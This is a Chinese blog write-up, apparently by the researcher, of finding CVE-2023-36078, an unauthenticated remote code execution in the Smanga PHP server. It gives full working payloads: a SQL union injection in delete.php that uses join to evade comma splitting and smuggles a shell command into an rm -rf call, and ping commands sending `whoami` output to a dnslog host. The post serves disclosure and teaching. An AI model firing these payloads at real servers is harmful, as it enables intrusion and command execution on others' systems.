









# 记一次 Smanga RCE 漏洞挖掘（CVE-2023-36078） - tdragon6 - 博客园

> 原文：[`www.cnblogs.com/tdragon6/p/17747064.html`](https://www.cnblogs.com/tdragon6/p/17747064.html)

**记录一次本人 CVE 漏洞挖掘的过程，此漏洞已被分配编号：CVE-2023-36078**

## 挖掘思路

本次挖掘的 WEB 应用采用 PHP 编写，是一个流媒体平台，可以方便地浏览流媒体，支持压缩、添加、删除、阅读模式、书签和历史记录等功能，使用 mysql 作为数据库。

本文详细介绍了两个命令注入点的挖掘和分析过程，其中一个注入失败，另一个实现从 Sql 注入到命令注入，成功 Get 未授权 RCE 漏洞。

本次挖掘结合渗透测试和代码审计，先从代码审计入手，根据未授权远程代码执行漏洞的常规思路，寻找调用 Shell 接口的 API 函数，PHP 执行系统命令常见的函数如下：

```
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec() 
```

思路就是在代码中寻找这些敏感函数，以查找潜在的漏洞。

## 挖掘过程

根据上面的敏感函数，查找源代码，发现两个代码处存在 shell_exec()函数。

### 1、compress.php

第一个是在 `/php/compress/compress.php` 文件中，其功能是在进行 7z 压缩时，使用命令拼接 path 和 extractTo 参数。



追踪这两个参数，发现当 chapterType 参数为 7z 时，path 和 extractTo 参数通过 chapterPath 和 extractTo 参数传入。


继续追踪，发现 chapterPath 和 chapterType 参数可以通过 POST 直接传入，extractTo 参数值通过日期和 chapterPath 的 MD5 值拼接得到。



至此大致了解这个接口的功能点，通过传入一个压缩方式和文件路径，对文件进行压缩，chapterPath 和 chapterType 参数均可控，且该功能点没有鉴权控制，因此只需设置 chapterType 参为 7z，chapterPath 为我们注入的命令即可实现未授权远程代码执行。

第一张图可以看出命令拼接使用了单引号闭合传入的字符串，因此我们需要构造单引号闭合区间，原理类似 Sql 注入，并使用分号分隔命令。

因为此处 RCE 没有回显，借助 dnslog 判断，随便补齐其余参数，构造 Payload：

```
chapterPath='; ping -c 3 5b72a1a3.dns.dnsmap.org.;'&chapterType=7z 
```

此时服务器执行的命令应为：

```
7za x ''; ping -c 3 5b72a1a3.dns.dnsmap.org.;'' -r -o'$extractTo' 
```

理论上可以执行命令，但是发包后 dnslog 没有回显，且返回包为空。



尝试构造一个正常的 chapterId 参数，发现返回包有回显，此处报错是路径错误的问题，代码逻辑实际已经走过命令执行的步骤。



说明我们的命令注入 Payload 哪里出了问题，经过一段时间排查，发现是引号的问题，只要没有引号，程序就会正常执行，有了引号，程序就会中途报错退出。

继续查看代码，找到了原因，因为在执行命令之前，程序还会把 chapterPath 写入数据库，


追踪 dosql 函数，发现其 Sql 语句使用单引号拼接，因此我们 Paylaod 中的单引号会干扰数据库操作的命令，导致出错提前退出，因此没有走到命令注入点。

现在思路清晰了，需要构造的 Payload 既要闭合命令注入点的单引号，又要不干扰 Sql 语句的单引号，刚开始尝试用 url 编码单引号，但是发现 mysql 依旧可以识别，经过多次尝试，最终构造这样的 Payload：

```
chapterPath=%5c';ping -c 3 5b72a1a3.dns.dnsmap.org.;%5c'&chapterType=7z 
```

其中%5c 是 \ 符号的 url 编号，命令终端不会把%5c 识别为转义符，而 mysql 可以识别为转义符，这样就满足了条件，绕过了 mysql 的干扰，发包后果然如预期。



但是 dnslog 依旧没有收到记录，排查一段时间后依旧无果（崩溃了 TAT），于是先把这个点搁置，查看另一个命令注入点。

### 2、delete.php

另一个注入点是在 `/php/manga/delete.php` 中，其功能是在删除文件时，使用 `rm -rf` 拼接路径造成了命令注入，且这个接口也是无需鉴权的。

在圈出的红框上方一行代码可以看到 mangaPath 参数是从 mangaPathRes[0]['mangaPath']得到的。


追踪 mangaPathRes[0]['mangaPath']，发现 mangaPathRe 是从数据库中查询的结果。


仔细查看 dosql 函数，发现 name 默认为*，group、order 和 limit 默认都为空，最终执行的 Sql 语句如下：

```
select * from manga where mangaId=$mangaId; 
```

确定了 mangaPath 参数的值其实是从 manga 表中查询 mangaId 行数据后 mangaPath 字段的值。





看到这里崩溃了，似乎没戏，因为参数没法控制，但是又想了一下，这里 Sql 语句没有进行过滤，理论上存在 Sql 注入，如果配合联合注入，构造 mangaPath 字段对应的值为注入的命令就可以执行远程命令。

开始尝试联合注入，该处代码 Sql 注入点 mangaId 为数字类型，deleteFile 参数通过 POST 参数可控，Sql 语句出错后返回的 code 为 2，Sql 语句正常执行后返回的 code 为 0，通过 order by 判断联合查询个数，发现为 12 个，于是构造 Payload 先进行验证：

```
mangaId=1 union select 1,2,3,4,5,6,7,8,9,10,11,12&deleteFile=true 
```

发包后发现 code 为 2，Sql 语句出错，果然没有像预期想的那么简单。



继续查看代码，经过很长时间的排查和测试，发现原来在 where 字段处，代码会把逗号分隔的所有项识别为多个条件数组，使用 and 组装。


因此我们的 Payload 就变成了这样，所以 Sql 语句报错：

```
mangaId=1 union select 1 and 2 and 3 and 4 and 5 and 6 and 7 and 8 and 9 and 10 and 11 and 12&deleteFile=true 
```

现在思路清晰了，联合查询项不使用逗号分隔，而使用 join 进行绕过，构造 Payload：

```
mangaId=1 union select * from (select 1)a join (select 2)b join (select 3)c join (select 4)d join (select 5)e join (select 6)f join (select 7)g join (select 8)h join (select 9)i join (select 10)j join (select 11)k join (select 12)l;&deleteFile=true 
```

发包后发现满足预期，code 为 0，说明成功联合注入。


接下来就简单了，构造命令注入 Payload，回带 whoami 的执行结果，因为此处命令注入没有回显，依旧采用 dnslog 的方式验证：

```
mangaId=1 union select * from (select 1)a join (select 2)b join (select 3)c join (select 4)d join (select '\";ping -c 3 `whoami`.357efab8.dns.dnsmap.org.;\"')e join (select 6)f join (select 7)g join (select 8)h join (select 9)i join (select 10)j join (select 11)k join (select 12)l;&deleteFile=true 
```

其中命令部分为

```
\";ping -c 3 `whoami`.357efab8.dns.dnsmap.org.;\" 
```

因为代码中命令拼接使用双引号，这里需要闭合，同时使用转义符区分 PHP 语法的双引号，使用分号分隔命令，此时服务器执行的命令应为：

```
rm -rf "";ping -c 3 `whoami`.357efab8.dns.dnsmap.org.;"" 
```



dnslog 收到记录，并成功回显。


至此成功挖掘了此处的远程代码执行漏洞。

## 总结

**相关漏洞信息已提交给对应人员或平台。**

漏洞挖掘是一个需要耐心的活，当遇到卡壳的时候永远告诉自己再看看，再试试，或许就能发现绕过方式和问题点。

不怕失败，坚持到最后，砥砺前行，最后祝自己和各位师傅在以后的挖洞道路上顺顺利利！